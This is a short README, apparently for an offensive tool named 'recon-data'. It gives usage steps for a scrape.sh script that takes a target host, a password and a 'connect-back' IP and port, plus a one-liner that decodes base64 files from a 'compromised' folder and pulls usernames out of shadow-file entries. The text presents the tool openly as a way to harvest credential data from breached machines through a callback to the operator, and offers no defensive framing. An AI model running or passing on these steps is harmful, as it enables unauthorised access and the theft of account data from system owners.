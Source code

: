 # recon-data

### remote device needs to have screen installed

### local device needs to sshpass install:

```shell
apt install sshpass
```

## Usage:

### MAKE SURE TO BE IN A NORMAL SHELL!!!!!!!!

```shell
./scrape.sh <user@hostname> <password> <connect-back-ip> <connect-back-port>
```

### get all shadow usernames

```shell
cat compromised/*.b64 | base64 -d | grep -i "^[[:alnum:]]*:.*:[[:alnum:]]*:[[:alnum:]]*:[[:alnum:]]*:[[:alnum:]]*:[[:alnum:]]*:[[:alnum:]]*:" | cut -d ":" -f 1 > usernames.txt 
```
